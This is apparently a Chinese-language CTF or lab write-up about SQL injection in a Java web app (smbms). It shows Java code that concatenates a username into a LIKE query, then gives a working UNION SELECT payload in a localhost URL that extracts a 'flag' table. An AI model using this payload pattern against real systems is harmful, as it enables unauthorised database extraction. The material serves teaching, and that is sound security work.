 ```java
if (!StringUtils.isNullOrEmpty(userName)) {
    sql.append(" and u.userName like '%").append(userName).append("%'");
}
```

之前说过，sql 注入最重要的就是拼接字符串。这里就直接把 `userName` 拼接到 sql 语句中，所以如果 `userName` 就可以作为注入点。

然后我们就找到网页上对应的查表点位，直接开始列数为 14, 注入列数为 3 的注入（这些数据可以试出来，也可以直接查看源代码）：

```
http://localhost:8080/smbms/jsp/user.do?method=query&queryName=李%25' union select 1,1,group_concat(flag),4,5,6,7,8,9,1,1,1,1,1 from flag where  '1'like'%251&queryUserRole=0&pageIndex=1 
```

总体的套路就是联合查询，如果采用注释后方 sql 语句的方式，可能不太奏效，这里我就使用直接闭合的方式。重点语句提取出来就是：

```
李%25' union select 1,1,group_concat(flag),4,5,6,7,8,9,1,1,1,1,1 from flag where  '1'like'%251
```

这个语句总体就能做到闭合前面也能闭合后面。`%25` 就是 `%` 本身。
